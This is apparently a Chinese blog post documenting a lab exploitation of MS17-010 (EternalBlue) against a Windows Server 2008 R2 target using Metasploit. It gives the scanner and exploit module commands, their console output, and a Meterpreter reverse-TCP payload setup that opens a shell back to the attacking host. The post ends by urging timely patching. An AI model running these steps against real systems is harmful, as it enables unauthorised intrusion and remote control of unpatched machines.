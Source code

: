 ```yaml
---
layout: post
title: ms17-010渗透测试
categories: Windows
tags: 
  - 渗透
  - Linux
---
```


主机工程师每天的一项日常工作就是给系统打各种补丁，我之前一直不以为然，认为这些补丁都可有可无。最近实践了下大名鼎鼎的ms17-010永恒之蓝，让我改变了这一想法。

![漏洞](https://user-images.githubusercontent.com/4729226/68555108-ee55d800-0466-11ea-8e6a-6d93d8481c54.png)



> 主机：kali   192.168.106.242
>
> 靶机：Windows Server 2008 R2   192.168.106.240



永恒之蓝是以前玩剩下的了，现在Metasploit里面已经集成了17-010漏洞，渗透测试更加方便与正式化，内网中用17-010去测一测会发现意外惊喜。



![search](https://user-images.githubusercontent.com/4729226/68555461-dd0dcb00-0468-11ea-89b7-5fcc0f92abbe.png)



搜索到了4个相关的模块：

1.  auxiliary/admin/smb/ms17_010_command
2.  auxiliary/scanner/smb/smb_ms17_010
3.  exploit/windows/smb/ms17_010_eternalblue
4.  exploit/windows/smb/ms17_010_psexec



先使用`auxiliary/scanner/smb/smb_ms17_010`扫描可能含有ms17-010漏洞的服务器。

```sh
msf5 > use auxiliary/scanner/smb/smb_ms17_010
msf5 auxiliary(scanner/smb/smb_ms17_010) > show options

Module options (auxiliary/scanner/smb/smb_ms17_010):

   Name         Current Setting                                                 Required  Description
   ----         ---------------                                                 --------  -----------
   CHECK_ARCH   true                                                            no        Check for architecture on vulnerable hosts
   CHECK_DOPU   true                                                            no        Check for DOUBLEPULSAR on vulnerable hosts
   CHECK_PIPE   false                                                           no        Check for named pipe on vulnerable hosts
   NAMED_PIPES  /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                       yes       The target address range or CIDR identifier
   RPORT        445                                                             yes       The SMB service port (TCP)
   SMBDomain    .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                      no        The password for the specified username
   SMBUser                                                                      no        The username to authenticate as
   THREADS      1                                                               yes       The number of concurrent threads

msf5 auxiliary(scanner/smb/smb_ms17_010) > 
```

![QQ截图20191111095648](https://user-images.githubusercontent.com/4729226/68555634-9c628180-0469-11ea-8ad9-dd0df9bda69b.png)



可以看到靶机的ms17-010漏洞被扫描出来了。



使用`exploit/windows/smb/ms17_010_eternalblue`攻击，这里设置meterpreter的payload。

```sh
msf5 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.106.240
rhosts => 192.168.106.240
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > set lhost 192.168.106.242
lhost => 192.168.106.242
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.106.240  yes       The target address range or CIDR identifier
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.106.242  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

```

![攻击成功](https://user-images.githubusercontent.com/4729226/68555823-75587f80-046a-11ea-86c6-ff2cb296fa2b.png)

exploit成功，接下来就可以为所欲为了~~



所以说补丁还是得勤打，特别是永恒之蓝这种级别的漏洞，毕竟各大厂商不是吃白饭的。